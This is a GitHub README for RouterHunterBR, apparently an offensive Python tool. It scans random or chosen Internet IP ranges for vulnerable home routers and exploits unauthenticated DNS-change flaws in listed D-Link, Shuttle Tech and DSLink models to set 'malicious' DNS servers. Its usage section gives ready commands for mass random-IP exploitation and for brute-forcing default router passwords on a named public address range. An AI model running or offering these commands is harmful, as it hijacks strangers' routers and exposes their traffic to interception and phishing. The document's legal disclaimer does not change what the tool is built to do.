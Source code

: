 # Scanner Routerhunter 2.0
 Tool used to find vulnerable routers and devices on the Internet and perform tests

```
	          _	          _           _
  ___ ___ _ _| |_ ___ ___| |_ _ _ ___| |_ ___ ___
 |  _| . | | |  _| -_|  _|   | | |   |  _| -_|  _|
 |_| |___|___|_| |___|_| |_|_|___|_|_|_| |___|_|
				       BR - v2.0

 Tool used to find vulnerable routers and devices on the Internet and perform tests.

[ Coded by Jhonathan Davi a.k.a jh00nbr - jhoonbr at protonmail.ch ]
[ fb.com/JhonVipNet - twitter.com/jh00nbr - github.com/jh00nbr/ - blog.inurl.com.br - www.youtube.com/c/Mrsinisterboy ]


[!] legal disclaimer: Usage of RouterHunterBR for attacking targets without prior mutual
consent is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws.Developers assume no liability and are not responsible for any misuse or damage caused
by this program.
```


 * AUTOR: Jhonathan Davi A.K.A jh00nbr
 * EMAIL*: jhoonbr@protonmail.ch
 * Blog: http://blog.inurl.com.br
 * Twitter: https://twitter.com/jh00nbr
 * Facebook: https://fb.com/JhonVipNet
 * Fanpage: https://fb.com/InurlBrasil
 * Github: https://github.com/jh00nbr/
 * Youtube: https://www.youtube.com/c/Mrsinisterboy


### Description
------
  The RouterhunterBR is an automated security tool that looks for vulnerabilities and performs tests on routers and vulnerable devices on the Internet. The RouterhunterBR was designed to run over the Internet looking for defined ips tracks or random in order to automatically exploit the vulnerability DNSChanger on home routers.

  The script explores four vulnerabilities in routers

 * Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit
  reference: http://www.exploit-db.com/exploits/35995/

 * D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit
  reference: http://www.exploit-db.com/exploits/35917/

 * D-Link DSL-2640B Unauthenticated Remote DNS Change Exploit
   reference: http://1337day.com/exploit/23302/
 * D-Link DSL-2780B DLink_1.01.14 - Unauthenticated Remote DNS Change
   reference: https://www.exploit-db.com/exploits/37237/

 * D-Link DSL-2730B AU_2.01 - Authentication Bypass DNS Change
   reference: https://www.exploit-db.com/exploits/37240/
 * D-Link DSL-526B ADSL2+ AU_2.01 - Unauthenticated Remote DNS Change
   reference: https://www.exploit-db.com/exploits/37241/

 * DSLink 260E - Authenticated routers - DNS Changer - Bruteforce
   reference: https://www.youtube.com/watch?v=tNjy91g2Rak
   http://blog.inurl.com.br/2015/03/dslink-260e-defaut-passwords-dns-change_17.html

### Requeriments
```
import sys, os, argparse, itertools, requests, random, time, threading, base64, socket
from datetime import datetime
```

### Usage

```
  -range 192.168.1.0-255, --range 192.168.1.0-255  Set range of IP
  -bruteforce, --bruteforce                        Performs brute force with users and passwords standards, and soon    after defines the malicious DNS.
  -startip 192.168.*.*, --startip 192.168.*.*      Start - IP range customized with wildcard / 201.*.*.*
  -endip 192.168.*.*, --endip 192.168.*.*          End - IP range customized with wildcard / 201.*.*.*
  -dns1 8.8.8.8, --dns1 8.8.8.8                    Define malicious dns1
  -dns2 8.8.4.4, --dns2 8.8.4.4                    Define malicious dns2
  --threads 10                                     Set threads numbers
  -rip, --randomip                                 Randomizing ips routers
  -lmtip 10, --limitip 10                          Define limite random ip
```

### Commands

```
Random ips
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --randomip --limitip 10 --threads 10
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 -rip -lmtip 10 --threads 10

```


```
Scanner in range ip:
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --range 192.168.25.0-255 --threads 10

```

```
IP range customized with wildcard / Ex: --startip 201.*.*.* -  --endip 201.*.*.*
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.8 --startip 192.168.*.* --endip 192.168.*.* --threads 10
```
```
Brute force with users and passwords on routers that requires authentication, forcing alteration of dns - DSLink 260E.
python routerhunter.py --dns1 8.8.8.8 --dns2 8.8.4.4 --range 177.106.19.65-70 --bruteforce --threads 10
```

### Screenshots
![rip](http://i.imgur.com/CAhvz1T.png)
![range](http://i.imgur.com/sA1IKTp.png)
![brute](http://i.imgur.com/IhtaZhw.png)
